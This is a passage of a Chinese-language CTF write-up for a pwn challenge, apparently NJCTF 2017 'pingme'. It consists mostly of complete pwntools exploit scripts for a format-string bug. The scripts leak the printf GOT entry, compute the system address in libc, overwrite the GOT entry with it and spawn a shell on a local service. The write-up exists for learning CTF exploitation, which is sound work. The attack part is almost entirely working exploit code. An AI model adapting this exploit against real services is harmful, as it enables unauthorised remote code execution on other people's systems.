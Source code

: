 拿到偏移后



#### 利用%n特性重写printf_got

脚本

```python
payload = fmtstr_payload(7, {printf_got: system_addr})
p = remote('127.0.0.1', '10001')
p.recvline()
p.sendline(payload)
p.recv()
p.sendline('/bin/sh')
p.interactive()
```



最终我的exp：

```python
from pwn import *
def eeexp():
    printf_got = 0x8049974
    system_offset = 0x0003e9e0
    printf_offset = 0x00052860

    p = remote('127.0.0.1', '10001')
    p.recvline()
    payload = "%9$s.AAA" + p32(printf_got)
    p.sendline(payload)
    data = p.recvuntil(".AAA")[:4].encode('hex')
    data2 = data[6:8]+data[4:6]+data[2:4]+data[0:2]
    printf_so = eval("0x{}".format(data2))
    log.info("printf_so -> 0x%x" % printf_so)
    system_so = printf_so + (system_offset-printf_offset) 
    log.info("system_got -> 0x%x" % system_so)

    payload = fmtstr_payload(7,{printf_got:system_so})
    p.sendline(payload)

    p.recv()
    p.sendline('/bin/sh')
    p.interactive()
if __name__ == "__main__":
    eeexp()

```



### 参考

https://www.bookstack.cn/read/CTF-All-In-One/doc-6.1.2_pwn_njctf2017_pingme.md